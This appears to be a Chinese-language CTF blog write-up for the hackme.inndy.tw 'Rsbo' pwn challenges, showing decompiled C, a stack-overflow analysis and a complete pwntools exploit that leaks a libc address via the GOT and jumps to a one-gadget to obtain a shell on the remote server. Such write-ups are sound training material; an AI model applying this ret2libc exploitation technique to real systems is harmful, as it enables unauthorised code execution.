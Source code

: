 ```yaml
---
title: hackme.inndy.tw::Rsbo & Rsbo 2
date: 2021-10-17 21:24:55
tags: 
    - pwn
    - write ups
---
```


## challenge
`Tips: ROP, open, read`

## 保護機制
NX開啟，Partial RELRO

## 分析
### main
<!-- more -->
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf[80]; // [esp+10h] [ebp-60h]
  int v6; // [esp+60h] [ebp-10h]
  int v7; // [esp+64h] [ebp-Ch]
  int v8; // [esp+68h] [ebp-8h]
  int i; // [esp+6Ch] [ebp-4h]

  alarm(0x1Eu);
  init();
  v8 = read_80_bytes(buf);
  for ( i = 0; i < v8; ++i )
  {
    v3 = rand();
    v7 = v3 % (i + 1);
    v6 = buf[i];
    buf[i] = buf[v3 % (i + 1)];
    buf[v7] = v6;
  }
  write(1, buf, v8);
  return 0;
}
```
### init
```c
void init()
{
  char buf[16]; // [esp+14h] [ebp-24h]
  int fd; // [esp+24h] [ebp-14h]
  unsigned int seed; // [esp+28h] [ebp-10h]
  int i; // [esp+2Ch] [ebp-Ch]

  fd = open("/home/ctf/flag", 0);
  read(fd, buf, 0x10u);
  seed = time(0);
  for ( i = 0; i <= 15; ++i )
    seed = (signed int)(1337 * seed + buf[i]) % 0x7FFFFFFF;
  close(fd);
  memset(buf, 0, 0x10u);
  srand(seed);
}
```
觀察組語可發現 `main()` stack大小小於0x80(128), 而`read_80_bytes()`造成 overflow

因為ASLR, NX 的關係, 需要想辦法ROP

但binary太小, 組不起ROP chain, 因此使用libc

只要Leak GOT, 接著就可以算出libc base & getshell了

## exploit
```python
#!/usr/bin/env python2

from pwn import *
context.log_level = 'debug'

#p = process('rsbo')
p = remote('hackme.inndy.tw', 7706)
e = ELF('rsbo')
libc = ELF('libc-2.23.so.i386')

#Stage 1 (leak read)
payload = '\x00'*108
payload += p32(e.symbols['write']) + p32(e.symbols['_start']) + p32(1) + p32(e.got['read']) + p32(4)
p.send(payload)
libc_base = u32(p.recv(4)) - libc.symbols['read']
print '[+]Libc base at: {}'.format(hex(libc_base))

payload = '\x00'*108
payload += p32(libc_base + 0x5faa5)
p.send(payload)

p.interactive()
p.close()
```
shell連上去之後可以拿到2個 Flag

